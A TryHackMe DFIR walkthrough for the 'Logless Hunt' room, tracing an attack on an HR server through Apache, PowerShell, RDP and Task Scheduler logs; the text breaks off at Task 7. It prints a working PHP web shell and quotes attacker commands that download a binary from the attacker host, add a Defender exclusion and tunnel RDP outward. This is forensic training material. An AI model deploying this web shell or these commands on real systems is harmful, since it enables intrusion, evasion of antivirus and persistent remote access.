







# Logless Hunt

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Medium
Tags: -
Subscription type: Free
Description: Provide an understanding of the OpenCTI Project
```

Room link: [https://tryhackme.com/room/loglesshunt](https://tryhackme.com/room/loglesshunt)

## Solution

### Task 1 - Introduction

In this room, as a DFIR team member, you were tasked with supporting a medium-sized company in its efforts to investigate and recover from a cyberattack in which threat actors cleared Windows Security logs and hoped to remain undetected.

The room is intended for DFIR team members and SOC L2/L3 analysts who want to be better prepared during scenarios in which a cyberattack does not leave any obvious traces but still must be investigated using built-in tools and artifacts.

#### Learning Objectives

- Get acquainted with different Windows logs, some even more helpful than Security logs
- Investigate a realistic attack scenario, from web exploitation up to credential access

#### Prerequisites

Before moving on, it is recommended to be familiar with Windows OS, its logging capabilities and common attack techniques. Great rooms to start with:

- [Log Analysis Module](https://tryhackme.com/module/log-analysis)
- [Windows Event Logs](https://tryhackme.com/room/windowseventlogs)

**Notice**: This room includes both guided walkthroughs along with independent challenges that rely on knowledge gained in other rooms. Prepare for both!

### Task 2 - Scenario

#### Customer's CTO Intro

Our IT team received an IPS alert on suspicious network behaviour and began investigating. They reviewed the Security and System logs on all our Windows servers and concluded, "All event logs are empty, so hackers did not breach the servers."  But guess what? A few days later, our website started showing some crypto scam ads and some servers were running at 100% CPU load!

While our IT team is recovering the critical servers, can you look at our old HR server (HR01-SRV)? We hosted salary review automations there that got unpopular, and the server is now rarely used. However, we noticed a spike in HTTP traffic from the Users' subnet and suspect it to be a part of the attack. We would appreciate seeing any evidence you can find there!



#### Machine Access

Before moving forward, start the lab by clicking the **Start Machine** button. It will take around 2 minutes to load. The VM will be accessible on the right side of the split screen. Alternatively, you can connect directly to the machine using the following information via RDP:

- Username: `Administrator`
- Password: `Admin123`
- IP-address: `10.10.234.247`

After launching the VM, open Event Viewer.

----------------------------------------------------------------

#### What is the earliest Event ID you see in the Security logs?

```powershell
PS C:\Users\Administrator> Get-WinEvent Security -Oldest -MaxEvents 1


   ProviderName: Microsoft-Windows-Eventlog

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
1/23/2025 5:14:20 PM          1102 Information      The audit log was cleared....
```

Answer: 1102

### Task 3 - Initial Access | Web Access Logs

#### Web Access Logs

Web-based services are extremely popular and are the number one target of most threat actors (after exposed RDP). In Microsoft environments, most web apps are behind IIS or Apache, which log incoming requests by default. These access logs provide crucial insight during the investigation of web attacks and can help if you are dealing with:

- Microsoft Exchange (Mail server that uses IIS)
- AD Services (AD CS / SharePoint / RD Web use IIS)
- On-premise web apps (Accounting / CRMs / Wikis)
- Millions of websites worldwide using IIS or Apache

The most crucial context you can get from these logs is:

- Source IP: Who made the HTTP request?
- Timestamp: When was the request made?
- HTTP Method: If it was GET, POST, etc.
- Requested URL: What page did they ask for?
- Status Code: Server's response code such as 200/OK

Finally, the default location for these access logs is:

- Apache: `C:\Apache24\logs`
- IIS: `C:\inetpub\logs\LogFiles\<WEBSITE>`

```powershell
PS C:\> Get-Content C:\Apache24\logs\access.log
%source.ip - - [%time] "%http.method %http.url %http.version" %response.status %response.bytes
10.10.147.5 - - [22/Jan/2025:22:58:10 +0000] "GET / HTTP/1.1" 200 436
10.10.147.5 - - [22/Jan/2025:22:58:11 +0000] "GET /favicon.ico HTTP/1.1" 404 196
10.10.147.5 - - [22/Jan/2025:22:58:15 +0000] "GET /login.php HTTP/1.1" 200 782
10.10.147.5 - - [22/Jan/2025:22:58:42 +0000] "POST /login.php HTTP/1.1" 401 184
10.10.147.5 - - [22/Jan/2025:22:58:47 +0000] "POST /login.php HTTP/1.1" 401 184
10.10.147.5 - - [22/Jan/2025:22:58:47 +0000] "POST /login.php HTTP/1.1" 200 650
```

With this information in mind, can you now check for any suspicious web activity happening on **HR01-SRV**?

----------------------------------------------------------------

#### What is the title of the HR01-SRV web app hosted on 80 port?

Hint: Access the app via your web browser.

```powershell
PS C:\Users\Administrator> curl.exe http://localhost
<!DOCTYPE html>
<html>
<body>
<h1>Salary Raise Approver v0.1</h1>
<p>
Please upload your salary raise request below in any text format and our
advanced AI algorithms will calculate the possibilities!
</p>
<form action="upload.php" method="post" enctype="multipart/form-data">
  <input type="file" name="fileToUpload" id="fileToUpload">
  <input type="submit" value="Upload Request" name="submit">
</form>
</body>
</html>
```

Answer: Salary Raise Approver v0.1

#### Which IP performed an extensive web scan on the HR01-SRV web app?

```powershell
PS C:\Users\Administrator> curl.exe -I http://localhost
HTTP/1.1 200 OK
Date: Tue, 13 May 2025 15:07:29 GMT
Server: Apache/2.4.62 (Win64) PHP/8.4.3
X-Powered-By: PHP/8.4.3
Content-Type: text/html; charset=UTF-8

PS C:\Users\Administrator> cd C:\Apache24\logs\
PS C:\Apache24\logs> dir


    Directory: C:\Apache24\logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2025   4:58 PM          26837 access.log
-a----        5/13/2025   2:56 PM          23760 error.log
-a----        5/13/2025   2:56 PM              6 httpd.pid
-a----        1/22/2025   3:11 PM           3146 install.log


PS C:\Apache24\logs> Get-Content -TotalCount 20 .\access.log
::1 - - [22/Jan/2025:15:20:22 +0000] "GET / HTTP/1.1" 200 46
::1 - - [22/Jan/2025:15:20:22 +0000] "GET /favicon.ico HTTP/1.1" 404 196
::1 - - [22/Jan/2025:15:20:30 +0000] "GET / HTTP/1.1" 200 205
::1 - - [22/Jan/2025:15:23:53 +0000] "GET / HTTP/1.1" 200 205
::1 - - [22/Jan/2025:15:25:25 +0000] "GET / HTTP/1.1" 200 205
::1 - - [22/Jan/2025:15:25:31 +0000] "GET /index.php HTTP/1.1" 200 73681
::1 - - [22/Jan/2025:15:25:50 +0000] "GET / HTTP/1.1" 200 73645
10.14.97.15 - - [23/Jan/2025:15:45:43 +0000] "GET / HTTP/1.1" 200 422
10.14.97.15 - - [23/Jan/2025:15:45:44 +0000] "GET /favicon.ico HTTP/1.1" 404 196
10.14.97.15 - - [23/Jan/2025:15:45:50 +0000] "POST /upload.php HTTP/1.1" 404 196
10.14.97.15 - - [23/Jan/2025:15:46:12 +0000] "GET / HTTP/1.1" 200 422
10.14.97.15 - - [23/Jan/2025:15:46:15 +0000] "POST /upload.php HTTP/1.1" 200 125
10.14.97.15 - - [23/Jan/2025:15:46:20 +0000] "POST /upload.php HTTP/1.1" 200 125
10.14.97.15 - - [23/Jan/2025:15:47:12 +0000] "-" 408 -
10.10.23.190 - - [23/Jan/2025:16:51:44 +0000] "GET / HTTP/1.1" 200 422
10.10.23.190 - - [23/Jan/2025:16:51:44 +0000] "GET /40dfd350-2b79-418a-a466-5dad1ab4e493 HTTP/1.1" 404 196
10.10.23.190 - - [23/Jan/2025:16:51:44 +0000] "GET /.asp HTTP/1.1" 404 196
10.10.23.190 - - [23/Jan/2025:16:51:44 +0000] "GET /.jsp HTTP/1.1" 404 196
10.10.23.190 - - [23/Jan/2025:16:51:44 +0000] "GET /images.aspx HTTP/1.1" 404 196
10.10.23.190 - - [23/Jan/2025:16:51:44 +0000] "GET /images.asp HTTP/1.1" 404 196
PS C:\Apache24\logs> Get-Content .\access.log | ForEach-Object {$_.split(" ")[0]} | Group-Object | Select-Object Count, Name

Count Name
----- ----
   10 ::1
    7 10.14.97.15
  320 10.10.23.190
```

Answer: 10.10.23.190

#### What is the absolute path to the file that the suspicious IP uploaded?

Hint: Apache web root directory is `C:\Apache24\htdocs`.

```powershell
PS C:\Users\Administrator> cd C:\Apache24\htdocs\
PS C:\Apache24\htdocs> dir


    Directory: C:\Apache24\htdocs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/23/2025   4:52 PM                uploads
-a----        1/22/2025  10:54 PM            422 index.php
-a----        1/23/2025   3:44 PM            839 upload.php


PS C:\Apache24\htdocs> cd .\uploads\
PS C:\Apache24\htdocs\uploads> dir


    Directory: C:\Apache24\htdocs\uploads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2025   3:46 PM          14683 Andrew Marketing.pdf
-a----        1/23/2025   3:46 PM          45123 John Development.pdf
-a----        1/23/2025   4:52 PM            657 search.php


PS C:\Apache24\htdocs\uploads>
```

Answer: `C:\Apache24\htdocs\uploads\search.php`

#### Clearly, that's suspicious! What would you call the uploaded malware / backdoor?

Hint: Note how the file is then repeatedly used by the attacker to achieve code execution.

```powershell
PS C:\Apache24\htdocs\uploads> Get-Content .\search.php
<?php
if (!isset($_GET['q']) || $_GET['q'] !== "q")
{
    http_response_code(404);
    header("Content-Type: text/html");
    echo <<<HTML
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
HTML;
    exit;
}
?>

<html>
<body>
<form method="POST" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_POST['cmd']))
    {
        system($_POST['cmd']);
    }
?>
</pre>
</body>
PS C:\Apache24\logs> Get-Content .\access.log | ForEach-Object {$_.split(" ")[6]} | Select-String 'search.php'

/search.php
/uploads/search.php
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
/uploads/search.php?q=q
```

Answer: Web Shell

### Task 4 - From Web to RDP | PowerShell Logs

#### PowerShell Logs

PowerShell logs are often underrated, although they can provide vital insights into threat actors' activity. EDR solutions tend to block common malware, and simple CMD is not powerful enough for exploitation needs. PowerShell is becoming increasingly popular, mainly because of the popularity of so-called fileless attacks. There are three core PowerShell logging sources:

**Console History File**

PowerShell analogue of `~/.bash_history` in Linux. Enabled by default, it logs every command interactively entered in the PowerShell window but does not log window-less commands that occur during web shell usage or RCE exploitation. The image below shows how interactively-entered PowerShell commands are logged to the history text file:

`%AppData%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`



**Windows PowerShell Event Channel**

Enabled by default, it generates event ID 600 every time the PowerShell provider is launched and puts launch arguments in the "HostApplication" field. In contrast to the ConsoleHost_history, it logs only the creation of the PowerShell console but won't show any other commands launched within the same PowerShell session. Below, you can see how a launch of PowerShell engine and its launch arguments will be logged with the event ID 600:

Event Viewer -> Applications and Services Logs -> Windows PowerShell



**PowerShell ScriptBlock Logging**

While disabled by default, you may follow [Microsoft's Documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows#enabling-script-block-logging), enable script block logging, and see valuable event ID **4104** that logs every PowerShell command in full and decoded form. This event ID combines the power of basic PowerShell logging and ConsoleHost_history, as it detects commands entered through script files, interactively, or obfuscated via Base64. Below, you can see how **4104** logs expose the content of PowerShell scripts:

Event Viewer -> Apps and Services Logs -> Microsoft -> Windows -> PowerShell -> Operational



#### Logging Examples

```powershell
# Logged only by 4104 and ConsoleHost_history
PS C:\> Write-Output 'TEST1'
TEST1

# Logged only by 4104 and 600 IDs
CMD C:\> powershell -c "Write-Output 'TEST2'"
TEST2

# Script content logged only by 4104
CMD C:\> echo "Write-Output 'TEST3'" >> loglesshunt.ps1
CMD C:\> powershell ./loglesshunt.ps1
TEST3
```

The first test was entered in an interactive console, so it is logged only in the ConsoleHost_history file and by event ID **4104**. The second test will be logged by both event IDs **600** and **4104** but won't be shown in ConsoleHost_history because the command was not run in an interactive PowerShell window. Finally, in the third example, **4104** shines, as it is the only event ID displaying script content in full, decoded format. Check it out yourself!

What did the attacker enter through their backdoored web terminal? Perhaps some PowerShell commands?

----------------------------------------------------------------

#### What was the first command entered by the attacker?

Looking through both the Windows PowerShell Log and the PowerShell Operational Log this EID 600 event  
logged on 1/23/2025 4:55:18 PM seems to be the first activity:

```text
Provider "Registry" is Started. 

Details: 
    ProviderName=Registry
    NewProviderState=Started

    SequenceNumber=1

    HostName=ConsoleHost
    HostVersion=5.1.17763.1490
    HostId=70c719c1-c28d-4882-9b4c-ce9bf1ef568e
    HostApplication=powershell -c whoami
    EngineVersion=
    RunspaceId=
    PipelineId=
    CommandName=
    CommandType=
    ScriptName=
    CommandPath=
    CommandLine=
```

Answer: whoami

#### What is the full URL of the file that the attacker attempted to download?

This EID 600 event from the Windows PowerShell Log logged on 1/23/2025 4:56:29 PM  
gives as the answer:

```text
Provider "Registry" is Started. 

Details: 
    ProviderName=Registry
    NewProviderState=Started

    SequenceNumber=1

    HostName=ConsoleHost
    HostVersion=5.1.17763.1490
    HostId=d88ddfe2-189c-4d58-af0f-3e005c63c975
    HostApplication=powershell -c iwr http://10.10.23.190:8080/httpd-proxy.exe -outfile C:\Apache24\bin\httpd-proxy.exe
    EngineVersion=
    RunspaceId=
    PipelineId=
    CommandName=
    CommandType=
    ScriptName=
    CommandPath=
    CommandLine=
```

Answer: `http://10.10.23.190:8080/httpd-proxy.exe`

#### What command was run to exclude the file from Windows Defender?

This EID 600 event from the Windows PowerShell Log logged on 1/23/2025 4:58:19 PM  
gives as the answer:

```text
Provider "Registry" is Started. 

Details: 
    ProviderName=Registry
    NewProviderState=Started

    SequenceNumber=1

    HostName=ConsoleHost
    HostVersion=5.1.17763.1490
    HostId=651b023f-362f-4d17-90fa-77ef4698066a
    HostApplication=powershell -c Add-MpPreference -ExclusionPath C:\Apache24
    EngineVersion=
    RunspaceId=
    PipelineId=
    CommandName=
    CommandType=
    ScriptName=
    CommandPath=
    CommandLine=
```

Answer: Add-MpPreference -ExclusionPath C:\Apache24

#### Which remote access service was tunnelled using the uploaded binary?

Hint: Not port number, but a service name behind the port, like "SSH".

This EID 600 event from the Windows PowerShell Log logged on 1/23/2025 4:58:51 PM
gives as the answer:

```text
Provider "Registry" is Started. 

Details: 
    ProviderName=Registry
    NewProviderState=Started

    SequenceNumber=1

    HostName=ConsoleHost
    HostVersion=5.1.17763.1490
    HostId=db0584a5-9151-48d6-a58e-7830df527857
    HostApplication=powershell -c C:\Apache24\bin\httpd-proxy.exe client 10.10.23.190:443 R:3389:127.0.0.1:3389
    EngineVersion=
    RunspaceId=
    PipelineId=
    CommandName=
    CommandType=
    ScriptName=
    CommandPath=
    CommandLine=
```

Port 3389 is the standard port for RDP (Remote Desktop Protocol).

Answer: RDP

### Task 5 - Breached Admin | RDP Session Logs

#### RDP Session Logs

The most common way to view RDP logins is to filter for event ID **4624** (or **4625** for failures) and look for Logon Type **10**. The only issue is that this code is generated in the Security channel, which is unavailable in this DFIR project. The good news is that there is a dedicated channel to track RDP sessions in a simpler format and with little noise!

RDP event channel is enabled by default, but note that only successful RDP logins are logged.

- Event ID **21** marks successful RDP connect,
- Event ID **24** marks disconnect, and
- Event ID **25** marks reconnect.

Every log contains three key fields:

- **User** (the one that performed the login/logoff);
- **Session ID** (ID that you can use to correlate logins and logoffs);
- **Source Network Address** (source IP from where the login was made).

The image below shows a log that will be generated immediately after you log into the VM via RDP:

Event Viewer -> Applications and Services Logs -> Microsoft -> Windows -> TerminalServices-LocalSessionManager -> Operational



Note that Source Network Address can also take an unusual "LOCAL" value that indicates local login and can occur during system startup and usage of hypervisor utilities.

With the RDP port now tunnelled and available from the Users' network, can you trace its further usage?

----------------------------------------------------------------

#### What is the timestamp of the first suspicious RDP login? (format: 2025-01-05 15:30:45)

Search for EID 21 in the Microsoft-Windows-TerminalServices-LocalSessionManager/Operational log.  
The access with an IP-adress that matches the proxy command above is:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-TerminalServices-LocalSessionManager" Guid="{5d896912-022d-40aa-a3a8-4fa5515c76d7}" /> 
  <EventID>21</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x1000000000000000</Keywords> 
  <TimeCreated SystemTime="2025-01-23T17:00:12.331711600Z" /> 
  <EventRecordID>1705</EventRecordID> 
  <Correlation ActivityID="{f420af98-0275-4f6e-a29e-aa4554320000}" /> 
  <Execution ProcessID="696" ThreadID="2208" /> 
  <Channel>Microsoft-Windows-TerminalServices-LocalSessionManager/Operational</Channel> 
  <Computer>HR01-SRV</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <UserData>
- <EventXML xmlns="Event_NS">
  <User>HR01-SRV\Administrator</User> 
  <SessionID>2</SessionID> 
  <Address>10.10.23.190</Address> 
  </EventXML>
  </UserData>
  </Event>
```

Answer: 2025-01-23 17:00:12

#### What user did the attacker breach? (format: HOSTNAME\USER)

The same event as above but in normal view:

```text
Remote Desktop Services: Session logon succeeded:

User: HR01-SRV\Administrator
Session ID: 2
Source Network Address: 10.10.23.190
```

Answer: HR01-SRV\Administrator

#### What IP is shown as the source of the RDP login?

See the same event as above.

Answer: 10.10.23.190

#### What is the timestamp when the attacker disconnected from RDP? (format: 2025-01-05 15:30:45)

This event has the same session ID (i.e. 2) as the connection event above:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-TerminalServices-LocalSessionManager" Guid="{5d896912-022d-40aa-a3a8-4fa5515c76d7}" /> 
  <EventID>24</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x1000000000000000</Keywords> 
  <TimeCreated SystemTime="2025-01-23T17:16:46.990318300Z" /> 
  <EventRecordID>1709</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="696" ThreadID="1344" /> 
  <Channel>Microsoft-Windows-TerminalServices-LocalSessionManager/Operational</Channel> 
  <Computer>HR01-SRV</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <UserData>
- <EventXML xmlns="Event_NS">
  <User>HR01-SRV\Administrator</User> 
  <SessionID>2</SessionID> 
  <Address>10.10.23.190</Address> 
  </EventXML>
  </UserData>
  </Event>
```

Answer: 2025-01-23 17:16:46

### Task 6 - Persistence Traces | Scheduled Tasks

#### Task Scheduler Logs

You may know that scheduled task creation is conveniently logged as event ID **4698** into the Security channel. But there is also a dedicated log source made specifically to track every task execution, creation, or modification!

Although the TaskScheduler log channel is disabled by default, it is common to see it enabled, as IT administrators often use it to debug their scheduled tasks.

- Logs event ID **106** upon task creation,
- Event ID **100** upon task startup, and
- Event ID **129** immediately after the task's process creation.

You can read more about other events in [Microsoft's Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd315533(v=ws.10)), but the example below is for the task registration:

Event Viewer -> Apps and Services Logs -> Microsoft -> Windows -> TaskScheduler -> Operational



If a deeper investigation is required, you may correlate these sources to get the full context of any existing scheduled task:

- **TaskScheduler logs**: To track all activities of the task, from its first execution to its removal
- **Task XML** (`C:\Windows\System32\Tasks`): To get the task's creation timestamp and its actual content
- **Task Scheduler**: An alternative to the XML if you have GUI access to the infected machine
- **PowerShell or Process Creation logs hack**: To get insight on activities before or after the task's creation

RDP tunneling was temporary; did the attacker try to establish their tunnel in a reliable way?

----------------------------------------------------------------

#### What is the name of the suspicious scheduled task?

Hint: Correlate task creation time with the incident timeline.

Search for EID 106 events in the Microsoft-Windows-TaskScheduler/Operational log.  
This event correlates with the timeline:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-TaskScheduler" Guid="{de7b24ea-73c8-4a09-985d-5bdadcfa9017}" /> 
  <EventID>106</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>106</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2025-01-23T17:05:37.744463900Z" /> 
  <EventRecordID>1</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="1020" ThreadID="2996" /> 
  <Channel>Microsoft-Windows-TaskScheduler/Operational</Channel> 
  <Computer>HR01-SRV</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData Name="TaskRegisteredEvent">
  <Data Name="TaskName">\Apache Proxy</Data> 
  <Data Name="UserContext">HR01-SRV\Administrator</Data> 
  </EventData>
  </Event>
```

Answer: Apache Proxy

#### When was the suspicious scheduled task created? (format: 2025-01-05 15:30:45)

See the event above

Answer: 2025-01-23 17:05:37

#### What is the task's "Trigger" value as shown in Task Scheduler GUI?

```bat
PS C:\Apache24\logs> schtasks.exe /query /tn 'Apache Proxy' /v /fo list

Folder: \
HostName:                             HR01-SRV
TaskName:                             \Apache Proxy
Next Run Time:                        N/A
Status:                               Running
Logon Mode:                           Interactive/Background
Last Run Time:                        5/13/2025 2:56:17 PM
Last Result:                          267009
Author:                               HR01-SRV\Administrator
Task To Run:                          C:\Apache24\bin\httpd-proxy.exe client 10.10.23.190:10443 R:3389:127.0.0.1:3389
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          Administrator
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```

Note that there is a slight difference between (a space character) the command-line info above and the GUI info.

Answer: At system startup

#### What is the full command line of the malicious task?

See the previous question.

Answer: C:\Apache24\bin\httpd-proxy.exe client 10.10.23.190:10443 R:3389:127.0.0.1:3389

### Task 7 - Credential Access | Windows Defender

#### Windows Defender Logs

